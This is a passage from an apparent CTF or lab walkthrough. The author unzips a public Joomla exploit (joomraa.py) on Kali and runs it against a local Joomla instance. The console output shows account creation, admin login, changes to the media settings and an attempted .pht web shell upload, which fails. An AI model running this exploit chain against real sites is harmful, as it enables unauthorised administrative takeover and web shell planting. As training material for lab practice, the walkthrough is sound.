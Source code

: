 One the download is complete, we need to unzip the exploit.

```console
root@kali:~/gds# ls
40637.zip   dir_enum.py            lindsey_hash  small.txt
common.txt  gds-authenticator.apk  names.txt
root@kali:~/gds# unzip 40637.zip 
Archive:  40637.zip
   creating: 40637/
  inflating: 40637/filthyc0w.pht     
   creating: __MACOSX/
   creating: __MACOSX/40637/
  inflating: __MACOSX/40637/._filthyc0w.pht  
  inflating: 40637/joomraa.py        
  inflating: __MACOSX/40637/._joomraa.py  
  inflating: 40637/README.md         
  inflating: __MACOSX/40637/._README.md 
root@kali:~/gds# ls
40637      common.txt   gds-authenticator.apk  __MACOSX   small.txt
40637.zip  dir_enum.py  lindsey_hash           names.txt
```

Okay! So we have the exploit unzipped and ready to go. Our next step would be to run the exploit with specific options.

For this exploit to work, we need to choose a username, password and e-mail address to use, and point it at the URL af the Joomla website. 

We don't need to provide legitimate details so I just chose __user__ as both the username and password, and for the email I chose __user@user.com__.

And if you provided your real credentials... then I suggest you rethink being a hacker!

Alright - once we know what info we will be providing, let's go ahead and run the exploit. Don't forget to give the exploit executable permissions first!

```console
root@kali:~/gds# cd 40637/
root@kali:~/gds/40637# ls
filthyc0w.pht  joomraa.py  README.md
root@kali:~/gds/40637# chmod +x joomraa.py 
root@kali:~/gds/40637# ./joomraa.py -u user -p password -e user@user.com http://localhost:8080
                                                                                                                    
     @@@   @@@@@@    @@@@@@   @@@@@@@@@@   @@@@@@@    @@@@@@    @@@@@@   @@@  
     @@@  @@@@@@@@  @@@@@@@@  @@@@@@@@@@@  @@@@@@@@  @@@@@@@@  @@@@@@@@  @@@  
     @@!  @@!  @@@  @@!  @@@  @@! @@! @@!  @@!  @@@  @@!  @@@  @@!  @@@  @@!  
     !@!  !@!  @!@  !@!  @!@  !@! !@! !@!  !@!  @!@  !@!  @!@  !@!  @!@  !@   
     !!@  @!@  !@!  @!@  !@!  @!! !!@ @!@  @!@!!@!   @!@!@!@!  @!@!@!@!  @!@  
     !!!  !@!  !!!  !@!  !!!  !@!   ! !@!  !!@!@!    !!!@!!!!  !!!@!!!!  !!!  
     !!:  !!:  !!!  !!:  !!!  !!:     !!:  !!: :!!   !!:  !!!  !!:  !!!       
!!:  :!:  :!:  !:!  :!:  !:!  :!:     :!:  :!:  !:!  :!:  !:!  :!:  !:!  :!:  
::: : ::  ::::: ::  ::::: ::  :::     ::   ::   :::  ::   :::  ::   :::   ::  
 : :::     : :  :    : :  :    :      :     :   : :   :   : :   :   : :  :::  

[-] Getting token
[-] Creating user account
[-] Getting token for admin login
[-] Logging in to admin
[+] Admin Login Success!
[+] Getting media options
[+] Setting media options
[*] Uploading exploit.pht
[*] Uploading exploit to: http://localhost:8080/images/RKPVOLS3V6.pht
[!] Failed to upload file!
[*] FAILURE
```
